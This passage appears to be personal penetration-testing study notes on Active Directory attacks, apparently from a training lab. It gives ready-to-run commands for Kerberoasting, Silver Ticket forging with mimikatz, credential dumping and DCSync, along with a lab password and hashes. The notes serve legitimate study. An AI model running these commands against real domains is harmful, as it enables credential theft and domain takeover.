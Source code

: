 ```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
**Perform Attack on kali linux:**
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
if `KRB_AP_ERR_SKEW(Clock skew too great)`error-> synchronize the time by `ntpdate` or `rdate`.
**Hashcat mode:`13100 | Kerberos 5, etype 23, TGS-REP`**
### Silver Tickets
Service account password/NTLM hash -> forge our own service ticket to access the target resource.
**Extract cached AD credentials by mimikatz.(Need administrator privilege).**
```bahs
privilege::debug
sekurlsa::logonpasswords
```
**Obtain the domain SID** (wipe last 4 digits)
```
whoami /user
```
Create a silver ticket with Mimikatz:
```powershell
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
`/user`: the exist user that we impersonate,`/target`: the service resource,`/service`: SPN protocol
Check the ticket:
```powershell
klist
```
Access http service by forged credential in cache:
```powershell
$response = iwr -UseDefaultCredentials http://web04.corp.com
$response.Content
```
### Domain Controller Synchronization
We need a user that is a member of _Domain Admins_, _Enterprise Admins_, or _Administrators_
Allows us to request any user credentials from the domain. 
**Use mimikatz on windows:**
```powershell
lsadump::dcsync /user:corp\Administrator

lsadump::dcsync /domain:medtech.com /all
```
Then `HASH NTLM` -> `hashcat` => mode 1000
**Use secretdump on kali:**
```bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
Obtained the NTLM hash of `dave`

